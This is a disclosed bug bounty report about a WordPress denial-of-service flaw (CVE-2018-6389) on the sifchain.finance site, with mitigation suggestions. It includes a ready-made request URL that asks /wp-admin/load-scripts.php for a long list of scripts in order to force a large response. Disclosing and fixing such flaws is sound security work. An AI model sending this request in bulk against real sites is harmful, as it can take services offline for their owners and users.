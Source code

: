 # Possibility of DoS attack at https://sifchain.finance// via CVE-2018-6389 exploitation

## Report Details
- **Report ID**: 1186985
- **URL**: https://hackerone.com/reports/1186985
- **State**: Closed
- **Severity**: none
- **Submitted**: 2021-05-06T18:53:12.966Z
- **Disclosed**: 2021-05-07T15:52:26.808Z

## Reporter
- **Username**: spyata
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: sifchain

## Vulnerability Information
There is possibility in /wp-admin/load-scripts.php script to generate large (~3Mb) amount of data via simple non-authenticated request to server.
The vulnerability is registered as https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389

Details
Detailed attack scenario is described for example here: https://baraktawily.blogspot.ru/2018/02/how-to-dos-29-of-world-wide-websites.html
I have an Apache JMeter script which is able to simulate necessary loading for your site (can be provided to you if necessary).

URL:

https://sifchain.finance/wp-admin/load-scripts.php?load=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter

Refference Hackerone report:# 752010

Variants to fix issue
change default "admin" directory name (Security through obscurity)
or apply some password protection to /wp-admin/ url
or apply some rate-limiting (but DDoS is still possible)
Other possible Fix
https://github.com/Jetserver/CVE-2018-6389-FIX

## Impact

DoS attack at application level.

## Attachments
- sifPOC.JPG
